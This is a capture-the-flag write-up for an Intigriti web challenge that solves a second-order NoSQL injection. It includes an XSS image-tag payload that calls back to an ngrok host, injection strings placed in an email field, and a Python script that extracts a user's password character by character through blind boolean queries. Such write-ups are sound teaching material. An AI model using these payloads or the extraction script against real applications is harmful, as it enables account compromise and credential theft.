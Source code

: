 ```yaml
---
Name: Intigriti January challenge by Samokosik and mrkcdl
Category: (No)SQL Injection
Link: https://challenge-0123.intigriti.io
---
```


## Challenge Description
>Hey there! I'm JacquesPhil and I bet I have more friends than you do! That's why I wrote this tool to prove it!

>Just input my name and be baffled by the amount of friends I have! I bet your name isn't even in here! That's because me and my friends are just way more noteworthy than you!

>One of my friends even works for Intigriti, and his password is the flag. But I'm not even worried. Somebody with less friends than me would never be able to hack this website!

>I also rollback the database every 15 minutes, that way I always have the most friends!

## Solution
Set username and password to XSS payload and get a callback to ngrok!
```html
<img src='http://078f-81-103-153-174.ngrok.io'>
```

No viable path, since no user will know to search for that string, let alone the target account (victim/admin/bot) 😆

Created user called `test` and then changed the email to `a%40a.com"` and get a 500 error when searching for `test`. Change it back to `a%40a.com` and the search function works again. 

Let's try a NoSQL injection payload `" || "1"=="1` which evaluates to `true`.
```txt
a%40a.com"+||+"1"%3d%3d"1
```

Search for `test` and it returns a user, probably the one we are looking for.
```json
{"username": "FrankSnys", "friends": 50}
```

Confirm by changing email to a condition that evaluates `false`.
```txt
a%40a.com"+||+"1"%3d%3d"2
```

Search for `test` and it returns `null`, therefore our injection is working! Now we need to extract the password for `FrankSnys` somehow 🤔

Created a solve script which loops through each char in user's passwords, checking against each printable character. Doing so also listed the available users and it turns out `PinkDraconian` was the target, as his password was `INTIGRITI{Y0uD1d1T}`

## Solve Script
Here's one to dump the flag from the target user 😎
```python
import requests
import string

url = 'https://challenge-0123.intigriti.io/'
username = 'cat'
password = 'crypto'
flag = 'INTIGRITI{'

# Create a session
session = requests.Session()

# Register user
response = session.post(url + 'login.html', data={'username': username, 'password': password})

while True:
    new_char = False
    for char in string.printable:

        # Update email (including our NoSQL payload)
        response = session.post(
            url + 'editor.html',
            data={
                'email': 'crypt@cat.hax"||this.username=="PinkDraconian"&&this.password[' + str(len(flag)) + ']=="' + char})

        # Perform search
        response = session.get(url + '/api/friends?q=' + username)

        # 'null' means char incorrect
        if response.status_code == 200 and response.text != 'null':
            new_char = True
            flag += char
            print('char: ' + char)
            break

    # End of the loop and no new char? Must have the flag!
    if not new_char or (new_char and char == '}'):
        break

# Print the flag :)
print('flag: ' + flag)
```

Could improve on the script using a binary search, e.g. [Blind SQLi binary search](https://github.com/Crypto-Cat/CTF/blob/main/web/DVWA/8-sqli.py) but I cba 😸 Here's an [awesome solution]( https://blog.huli.tw/2023/01/23/en/intigriti-0123-second-order-injection) using a ternary search to achieve the same goal with 185 requests, instead of ~600 🔥

## Resources
- [NullSweep: NoSQL Injection Cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet)
- [HackTricks: Second Order SQLi](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap)
- [PayloadsAllTheThings: NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
